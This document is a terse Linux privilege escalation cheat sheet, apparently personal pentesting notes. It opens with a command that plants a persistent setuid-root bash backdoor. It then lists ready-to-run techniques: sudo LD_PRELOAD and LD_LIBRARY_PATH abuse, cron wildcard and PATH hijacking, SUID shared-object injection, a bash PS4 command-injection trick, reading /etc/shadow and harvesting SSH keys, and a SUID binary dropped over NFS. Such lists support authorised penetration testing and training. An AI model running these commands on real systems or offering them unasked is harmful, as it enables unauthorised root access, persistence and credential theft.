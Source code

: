 Persistent root: `cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash`

1. Kernel exploit:
    + Detection:
        + `uname -a`, search for exploits
        + `linux-exploit-suggester-2.pl -k KERNEL`
    + Exploitation:
        + search for exploits, compile, run

2. Service exploit:
    + Detection:
        + `ps aux | grep "^root"`
        + `<program> --version`
        + `dpkg -l | grep <program>` or `rpm -qa | grep <program>`
    + Exploitation:
        + search for exploits
        + GTFOBins

3. Weak file permissions:
    + Detection:
        + `lse.sh`
        + `/etc/shadow` R|W, `/etc/passwd` W
        + backups
    + Exploitation:
        + depending on which files are readable or writable

4. Sudo:
    + Detection:
        + `lse.sh`
        + `sudo -l`
    + Exploitation:
        + can execute ALL and known password: `sudo su`, `sudo -i`, `sudo -s`, `sudo /bin/sh`, `sudo passwd`
        + GFTOBins
        + `LD_PRELOAD` -> create `preload.so`, then `sudo LD_PRELOAD=/tmp/preload.so PROGRAM`
        + `LD_LIBRARY_PATH` -> create shared library (`ldd`), then `sudo LD_LIBRARY_PATH=LIB_PATH PROGRAM`

5. Cron jobs:
    + Detection:
        + `lse.sh`
        + `/etc/crontab`
    + Exploitation:
        + weak file permissions
        + PATH
        + wildcards in cronjob -> GTFOBins

6. SUID binaries:
    + Detection:
        + `lse.sh`
    + Exploitation:
        + search for exploits
        + GTFOBins
        + shared object injection -> create shared library (`strace -v -f -e execve <command> 2>&1 | grep exec`), then run SUID binary
        + PATH (`strace -v -f -e execve <command> 2>&1 | grep exec`, `ltrace`, `strings`, disassembly)

7. Shell features:
    + `bash` < 4.2-048 -> user defined functions with absolute path name take precedence over executable
    + `bash` < 4.4 -> bash debug mode `env -i SHELLOPTS=xtrace PS4='$(CMD)' PROGRAM`

8. Passwords and keys:
    + config files
    + history files
    + SSH keys
    + password reuse

9. NFS:
    + Detection:
        + `/etc/exports`
        + `showmount -e TARGET`
    + Exploitation:
        + `mount -o rw,vers=2 TARGET:/tmp /tmp/nfs`
        + create SUID binary, run from target
